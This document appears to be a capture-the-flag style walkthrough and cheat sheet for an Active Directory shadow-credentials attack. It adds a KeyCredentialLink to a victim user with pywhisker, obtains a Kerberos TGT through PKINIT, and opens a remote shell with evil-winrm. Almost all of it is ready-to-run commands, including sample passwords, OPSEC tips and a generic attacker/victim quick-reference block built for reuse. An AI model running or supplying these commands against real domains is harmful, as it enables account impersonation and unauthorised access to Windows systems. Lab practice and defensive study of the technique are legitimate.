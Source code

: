 # Shadow Credentials (pywhisker) → PKINIT TGT → User Shell

**Scenario:** Using `pywhisker` to abuse shadow credentials and add a KeyCredentialLink to a target user account, minting a certificate and authenticating via PKINIT to obtain a Kerberos TGT. With that, we impersonate the user and gain shell access.

---

## Flow
1) **Clone pywhisker** and generate `.pfx` for target user.  
2) **Use PKINITtools** to obtain Kerberos TGT (`gettgtpkinit.py`).  
3) **Export ccache** and configure `/etc/krb5.conf` + `/etc/hosts`.  
4) **Verify with klist**.  
5) **Leverage TGT** in `evil-winrm` for shell.  

References: pywhisker, PKINITtools, oscrypto, evil-winrm.

---

## Setup & OPSEC
- Ensure account used to run pywhisker has rights to add shadow credentials.  
- Work from venv for PKINITtools.  
- Keep `.pfx` + password secure in `/loot/shadowcreds/`.  

---

## Shadow Cred Abuse Generate Certificate
### pywhisker
```bash
git clone https://github.com/ShutdownRepo/pywhisker.git && cd pywhisker/pywhisker

# Example: add keycredential for jpinkman
python3 pywhisker.py --dc-ip DC_IP -d DOMAIN.LOCAL \
  -u wwhite -p 'Password123!' --target jpinkman --action add
```
Output gives `.pfx` file and password (e.g., `1UCYb0YS.pfx` + `1P9EvC2tKKJlBSum4Ej4`).

---

## Convert Certificate Kerberos TGT
### PKINITtools
```bash
cd ~ && git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
pip3 install -I git+https://github.com/wbond/oscrypto.git
```

### Request TGT
```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/1UCYb0YS.pfx \
  -pfx-pass '1P9EvC2tKKJlBSum4Ej4' -dc-ip DC_IP DOMAIN.LOCAL/jpinkman \
  /tmp/jpinkman.ccache
```
Generates Kerberos TGT for `jpinkman`.

---

## Kerberos Environment Setup
### Packages + Config
```bash
sudo apt-get install krb5-user -y
echo "DC_IP dc01.domain.local" | sudo tee -a /etc/hosts
sudo nano /etc/krb5.conf
# default_realm = DOMAIN.LOCAL ; kdc = dc01.domain.local
```

### Export Ticket
```bash
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```
Should list TGT for `jpinkman@DOMAIN.LOCAL`.

---

## Exploitation
### 4.1 Evil-WinRM with Kerberos
```bash
evil-winrm -i dc01.domain.local -r domain.local
```
Uses ticket cache, authenticates as `jpinkman`.

### Grab Flag
```powershell
type C:\Users\jpinkman\Desktop\flag.txt
```

---

## Quick Reference
```bash
# Shadow cred
python3 pywhisker.py --dc-ip DC_IP -d DOMAIN.LOCAL -u attacker -p pass \
  --target victim --action add

# PKINIT
python3 gettgtpkinit.py -cert-pfx victim.pfx -pfx-pass '<pw>' \
  -dc-ip DC_IP DOMAIN.LOCAL/victim /tmp/victim.ccache
export KRB5CCNAME=/tmp/victim.ccache
klist

# Shell
evil-winrm -i dc01.domain.local -r domain.local
```

---

## Tool Links
- pywhisker — https://github.com/ShutdownRepo/pywhisker  
- PKINITtools — https://github.com/dirkjanm/PKINITtools  
- oscrypto fix — https://github.com/wbond/oscrypto  
- evil-winrm — https://github.com/Hackplayers/evil-winrm  
